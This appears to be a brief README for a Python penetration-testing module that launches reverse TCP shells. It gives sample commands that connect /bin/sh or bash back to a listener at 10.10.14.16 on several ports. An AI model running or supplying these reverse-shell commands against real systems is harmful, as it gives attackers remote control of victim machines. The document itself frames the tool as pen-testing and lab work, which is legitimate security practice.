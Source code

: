 #### Use case

    Used for penetration testing.
    The main reason I created this module, was so that I could easily
    and quickly initiate multiple reverse TCP connections.

    More often than not, I connect via three different ports when hacking,
    and I would rather not keep performing "sed"/"ed", or opening vim/nano or
    using powershell commands in order to switch the ports, or inital shell.

#### Sample module wrtcpb - Iniitate reverseTCP

    Straight forward.
    python wrtcpb.py -lh 10.10.14.16 -lp 4443 -c /bin/sh
    python wrtcpb.py -lh 10.10.14.16 -lp 4442 -c bash
    ./wrtcpb.py -lh 10.10.14.16

##### _All modules have helper flags -h and --help for more assistance._

